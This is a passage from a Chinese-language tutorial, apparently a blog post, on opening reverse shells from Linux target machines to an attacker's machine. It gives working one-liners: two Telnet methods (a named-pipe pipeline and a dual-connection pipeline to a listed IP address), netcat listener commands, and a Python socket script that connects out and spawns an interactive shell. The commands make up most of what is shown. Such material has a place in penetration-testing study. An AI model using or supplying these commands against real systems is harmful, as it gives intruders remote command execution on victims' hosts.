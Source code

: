 执行效果如下：

![](https://ask.qcloudimg.com/http-save/yehe-5957324/g5apspis6z.png)

**利用 Telnet 反弹 shell**
----------------------

当 nc 和 / dev/tcp 不可用，且目标主机和攻击机上支持 Telnet 服务时，我们可以使用 Telnet 反弹 shell。

### **方法一**

**攻击机开启本地监听：**

**目标机主动连接攻击机：**

```
mknod a p; telnet 47.xxx.xxx.72 2333 0<a | /bin/bash 1>a

```

执行效果如下：

![](https://ask.qcloudimg.com/http-save/yehe-5957324/2sayi5ezvl.png)

### **方法二**

**攻击机需要开启两个本地监听：**

```
nc -lvvp 2333nc -lvvp 4000

```

**目标机主动连接攻击机：**

```
telnet 47.101.57.72 2333 | /bin/bash | telnet 47.101.57.72 4000

```

![](https://ask.qcloudimg.com/http-save/yehe-5957324/2jjxoryeid.png)

如上图所示，获得 shell 后，在攻击机 2333 端口的终端上输入的命令会在目标机上执行，执行的回显将通过 4000 端口的终端显示出来。

**各种脚本反弹 shell**
----------------

### **Python 脚本反弹 shell**

当目标主机上有 python 环境时，我们可以用 Python 来反弹 shell。Python 在现在一般发行版 Linux 系统中都会自带，所以使用起来也较为方便，即使没有安装，我们手动安装也很方便。

**攻击机开启本地监听：**

**目标机主动连接攻击机：**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.xxx.xxx.72",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
